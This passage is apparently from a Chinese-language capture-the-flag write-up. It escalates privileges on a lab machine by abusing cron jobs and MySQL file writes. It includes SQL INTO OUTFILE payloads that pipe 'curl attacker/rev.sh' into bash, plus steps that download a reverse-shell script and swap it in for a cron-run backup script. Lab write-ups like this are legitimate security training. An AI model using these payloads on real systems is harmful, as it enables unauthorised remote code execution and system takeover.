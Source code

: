 看到有一个`/data/scripts/fixer-v*`，由于这里存在一个**通配符**，并且配合我们之前猜测可以进行`Mysql`写入文件，可以尝试写入一个包含bash脚本的一个文件然后等待**定时任务**被执行，监听反弹`Shell`

```
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
# You can also override PATH, but by default, newer versions inherit it from the environment
#PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *	* * *	root	cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.daily; }
47 6	* * 7	root	test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.weekly; }
52 6	1 * *	root	test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.monthly; }
#
*/1 * * * * www-data /bin/bash /data/scripts/app_backup.sh
*/15 * * * * mysql /bin/bash /data/scripts/table_cleanup.sh
* * * * * mysql /bin/bash /data/scripts/dbmonitor.sh
```

在`/etc/crontab`中发现，`mysql`每一分钟会执行一次执行`dbmonitor.sh`

首先要写入`json`文件，然后再写入一个符合**正则匹配**的脚本

```
#1
select+"curl+10.10.xx.xx/rev.sh+|bash;"+INTO+OUTFILE++'/data/scripts/dbstatus.json'; 

#2
select+"curl+10.10.xx.xx/rev.sh+|bash;"+INTO+OUTFILE++'/data/scripts/fixer-v___';
```

## User

在**定时任务**里面可以注意到，除了`mysql`还有一个`www-data`的定时任务，因此可以将一个**反弹`Shell`**重命名为`app_backup.sh`等待`www-data`去执行

```
mysql@yummy:/data/scripts$ wget 10.10.xx.xx/rev2.sh

mysql@yummy:/data/scripts$ mv app_backup.sh app_backup_old.sh
mv app_backup.sh app_backup_old.sh
mysql@yummy:/data/scripts$ mv rev2.sh app_backup.sh
mv rev2.sh app_backup.sh
mysql@yummy:/data/scripts$ ls
ls
app_backup_old.sh
app_backup.sh
dbmonitor.sh
fixer-v1.0.1.sh
sqlappointments.sql
table_cleanup.sh
```